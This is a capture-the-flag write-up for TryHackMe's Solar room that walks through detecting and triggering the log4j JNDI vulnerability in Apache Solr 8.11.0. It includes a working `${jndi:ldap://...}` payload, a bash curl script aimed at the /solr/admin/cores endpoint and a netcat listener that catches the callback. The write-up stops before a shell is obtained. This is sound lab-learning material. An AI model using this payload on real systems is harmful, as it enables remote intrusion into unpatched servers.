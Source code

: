 # CTF - [THM Solar, exploiting log4j](https://tryhackme.com/room/solar)
Nmap scan:
```
PORT     STATE SERVICE
22/tcp   open  ssh
111/tcp  open  rpcbind
8983/tcp open  unknown
```

Port 8983 is interesting, navigating to the web server on this port, I found a web app running Apache Solr version 8.11.0. Apparently, this software is known to 
have the vulnerable log4j package.
<br/><br/>
![Screenshot from 2021-12-22 13-53-37](https://user-images.githubusercontent.com/59718043/147141427-ae530fa8-811d-4d3a-a664-ab908b62025e.png)

The dashboard shows indicators that the log4j package is used for the logging activity on this application.
```
-Dsolr.log.dir=/var/solr/logs
```
This machine is supplied with example log files for investigation. In one of the log files, `solr.log`, there are multiple entries of the same requests pointing to
one specific URL endpoint or path. This path is set to `/admin/cores`. Another interesting field is the `params={}`, which we can supply with user input.
```
2021-12-13 03:44:58.415 INFO  (qtp1083962448-20) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=80
2021-12-13 03:47:53.989 INFO  (qtp1083962448-21) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:54.819 INFO  (qtp1083962448-16) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:55.284 INFO  (qtp1083962448-19) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:55.682 INFO  (qtp1083962448-22) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:56.075 INFO  (qtp1083962448-20) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:56.459 INFO  (qtp1083962448-23) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:56.844 INFO  (qtp1083962448-14) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:57.253 INFO  (qtp1083962448-17) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:57.548 INFO  (qtp1083962448-18) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:57.758 INFO  (qtp1083962448-21) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:58.058 INFO  (qtp1083962448-16) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=1
2021-12-13 03:47:58.346 INFO  (qtp1083962448-19) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0

```
The URL endpoint needs to be prefaced with `solr/`. So the address where we can supply the `params` payload 
would look like this: `http://MACHINE_IP:8983/solr/admin/cores`.
<br/><br/>
The payload to abuse this log4j vulnerability looks like this: `${jndi:ldap://ATTACKERCONTROLLEDHOST}`.
This schema reaches out to an attacker controlled endpoint via the LDAP protocol and uses the Java Naming and Directory Interface (JNDI) functionality
to access external resources.
<br/><br/>
To test this theory, we're going to set up a netcat listener then make an HTTP request including the JNDI payload as part of the parameters.
```
nc -nvlp 4444
```
```bash
#!/bin/bash

read -p "LISTENER IP: " attacker
read -p "TARGET IP: " target
curl "http://${target}:8983/solr/admin/cores?foo=$\{jndi:ldap://${attacker}:4444\}"
```
Output:
```
$ bash curl.sh
LISTENER IP: 10.8.219.166
TARGET IP: 10.10.73.44
{
  "responseHeader":{
    "status":0,
    "QTime":3},
  "initFailures":{},
  "status":{}}
```
Netcat output:
```
$ nc -nvlp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.73.44 57114
0
 `
```
As expected, the output verifies that the target is in fact vulnerable. The netcat lsitener caught a connection. However, 
the payload we sent only made an LDAP request, so we haven't popped a shell yet.

```
TO BE CONTINUED
```
